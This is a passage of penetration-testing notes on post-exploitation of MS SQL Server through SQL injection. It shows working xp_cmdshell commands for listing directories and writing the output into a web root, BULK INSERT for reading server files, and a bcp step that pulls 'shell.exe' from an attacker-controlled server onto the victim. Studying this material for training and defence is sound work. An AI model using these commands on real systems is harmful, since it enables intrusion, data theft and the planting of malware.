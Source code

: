   If the port is closed we will see an error similar to this:
    *SQL Server doe note exist or access denied*

  If the port is open we will see:
    *General network error. Check your network documentation*

  If errors are hidden and the port is closed the connection will timeout according to the *<connection timeout in seconds>* value.

###### 4.8.1.4. Reading the File System
Going on, you can also read the file system by launching the `dir` command:
  ```
  EXEC master..xp_cmdshell 'dir <target directory>'
  ```
  That will return the directory listing of `<target directory>`

  To read the result, we can save the output of the command on a web accessible folder:
    ```
    EXEC master..xp_cmdshell 'dir c:\ > C:\inetpub\wwwroot\site\dir.txt'--
    ```
  and then just browse to *dir.txt* at the URL: http://site.com/dir.txt

Or we can read a file on the server and then put its content into a table. Then we can extract the table via SQLi like any other table:
  ```
  CREATE TABLE filecontent(line varchar(8000));
  BULK INSERT filecontent FROM '<target file>';

  /* Remember to drop the table after extracting it:
  DROP TABLE filecontent;
  */
  ```

###### 4.8.1.5. Uploading Files
By using MSSQL advanced features, it is also possible to **upload a file** to the victim server.

Uploading a file involves 2 steps:
1. First, we have to insert the file into a table in a MS SQL database under our control
  ```
  CREATE TABLE HelperTable (file text)
  BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
  ```

2. Then, we force the target DB server to retrieve it from our server:
  ```
  EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S<our server address> -I<out server username> -P<our server password>'
  ```
  The victim server will connect to our SQL server, read the exe file from the table and recreate it remotely.

###### 4.8.1.6. Storing Command Results into a Temporary Table
Now that you know everything about advanced exploitation of SQL Server, let's see a technique to save the results of these stored procedures in a temporary table.

Then we can read the results by using some data dumping techniques.
